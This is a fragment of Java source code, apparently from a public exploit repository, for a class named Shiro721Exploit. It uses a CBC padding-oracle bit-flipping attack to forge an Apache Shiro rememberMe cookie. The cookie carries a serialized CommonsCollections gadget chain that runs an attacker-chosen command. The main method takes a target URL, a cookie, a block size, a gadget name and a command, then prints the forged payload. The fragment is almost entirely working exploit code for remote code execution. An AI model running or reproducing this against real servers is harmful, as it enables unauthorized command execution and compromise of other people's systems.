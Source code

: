 ```java
        logger.debug("Start encrypt data...");
        byte[][] plainTextBlocks = ArrayUtil.splitBytes(this.plainText, this.blockSize);

        if (nextBLock == null || nextBLock.length == 0 || nextBLock.length != this.blockSize) {
            logger.warn("You provide block's size is not equal blockSize,try to reset it...");
            nextBLock = new byte[this.blockSize];
        }
        byte randomByte = (byte) (new Random()).nextInt(127);
        Arrays.fill(nextBLock, randomByte);

        // 将payload翻转，由于CBC解密特性，CBC翻转攻击从payload的尾部开始
        byte[] result = nextBLock;
        byte[][] reverseplainTextBlocks = ArrayUtil.reverseTwoDimensionalBytesArray(plainTextBlocks);
        this.encryptBlockCount = reverseplainTextBlocks.length;
        logger.info(String.format("Total %d blocks to encrypt", this.encryptBlockCount));

        for (byte[] plainTextBlock : reverseplainTextBlocks) {
            // 每一块的CBC翻转攻击，nextBLock为当前翻转分组，plainTextBlock为要翻转为的结果，返回的IV作为下一块翻转分组
            nextBLock = this.getBlockEncrypt(plainTextBlock, nextBLock);
            result = ArrayUtil.mergerArray(nextBLock, result);

            this.encryptBlockCount -= 1;
            logger.info(String.format("Left %d blocks to encrypt", this.encryptBlockCount));
        }

        logger.info(String.format("Generate payload success, send request count => %s", this.requestCount));

        return Base64.getEncoder().encodeToString(result);
    }


    public static void main(String[] args) throws Exception {

        String targetUrl = args[0];
        String rememberMeCookie = args[1];
        int blockSize = Integer.parseInt(args[2]);
        String gadget = CommonsCollections1.class.getPackage().getName() +  "." +  args[3].trim();
        String command = args[4];


        final Class<? extends ObjectPayload> payloadClass = (Class<? extends ObjectPayload>) Class.forName(gadget);
        ObjectPayload payloadObj = payloadClass.newInstance();
        Object payload = payloadObj.getObject(command);
        byte[] ser = Serializer.serialize(payload);

        Shiro721Exploit poracle = new Shiro721Exploit(ser, blockSize, targetUrl, rememberMeCookie);

        logger.info(String.format("Result => %s", poracle.encrypt(null)));
    }
}


```
